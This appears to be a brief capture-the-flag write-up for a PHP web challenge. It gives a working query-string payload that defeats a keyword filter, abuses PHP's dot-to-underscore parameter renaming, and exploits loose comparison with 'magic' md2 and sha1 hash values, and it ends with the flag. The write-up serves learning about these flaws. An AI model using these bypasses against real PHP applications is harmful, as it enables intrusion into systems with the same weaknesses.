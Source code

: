 Step 1:
Pass step1=auditauditfsiiecfsiiec to retain "auditfsiiec" after replacement.

Step 2:
Use a dot to bypass the underscore filter: securi.code because php replaces . by _

Step 3 & 4:
These steps involve exploiting PHP's loose comparison with hashes.

Step 3: Pass a value that produces an md2 hash equal to "0": step3=2HlFqrdIKK6z

Step 4: Pass a value that produces a sha1 hash that matches itself: step4=0e00000000000000000000081614617300000000

Final payload : ?step1=auditauditfsiiecfsiiec&securi.code&step3=2HlFqrdIKK6z&step4=0e00000000000000000000081614617300000000

Flag : FSIIECTF{b881f27c5bde22254db00e3aec47d201}
